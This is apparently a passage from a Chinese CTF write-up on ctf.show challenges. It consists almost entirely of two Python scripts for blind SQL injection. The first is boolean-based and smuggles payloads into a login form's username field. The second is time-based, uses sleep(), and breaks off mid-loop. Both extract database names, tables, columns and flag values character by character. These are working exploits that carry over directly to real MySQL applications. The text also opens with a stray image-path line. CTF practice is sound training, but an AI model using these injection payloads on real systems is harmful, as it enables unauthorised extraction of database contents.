```py
import requests
if __name__ == '__main__' :
    url = 'http://8868895d-9164-42b0-a31d-d8ebe2bb0af7.challenge.ctf.show/'
    result = ''
    i = 0
    while True:
        i = i + 1
        low = 32
        high = 127
        while low < high:
            mid = (low + high) // 2
            #payload = f'if(ascii(substr((select group_concat(schema_name) from information_schema.schemata),{i},1))>{mid},1,0)%23'
            #payload = f'if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema="ctfshow"),{i},1))>{mid},1,0)%23'
            #payload = f'if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name="flagba"),{i},1))>{mid},1,0)%23'
            payload = f'if(ascii(substr((select group_concat(flag4sa) from ctfshow.flagba),{i},1))>{mid},1,0)%23'
            # print(payload)
            data={
                "uname":f"admin' and {payload}#",
                "passwd":12346
            }
            r = requests.post(url=url,data=data)
            if 'flag.jpg' in r.text:
                low = mid + 1
            else:
                high = mid
        if low != 32:
            result += chr(low)
        else:
            break
        print(result)

```



#### 时间盲注

```py
import requests
import time
if __name__ == '__main__' :
    url = 'http://5317a3cf-d6d2-4441-b598-9593444bfc12.challenge.ctf.show/?id=1"%20and%20'
    result = ''
    i = 0
    while True:
        i = i + 1
        low = 32
        high = 127
        while low < high:
            mid = (low + high) // 2
            #payload = f'if(ascii(substr((select group_concat(schema_name) from information_schema.schemata),{i},1))>{mid},1,sleep(3))%23'
            #payload = f'if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema="ctfshow"),{i},1))>{mid},1,sleep(2))%23'
            #payload = f'if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name="flagugs"),{i},1))>{mid},1,sleep(2))%23'
            payload = f'if(ascii(substr((select group_concat(flag43s) from ctfshow.flagugs),{i},1))>{mid},1,sleep(2))%23'
            # print(payload)
            stime=time.time()
            r = requests.get(url=url + payload)
```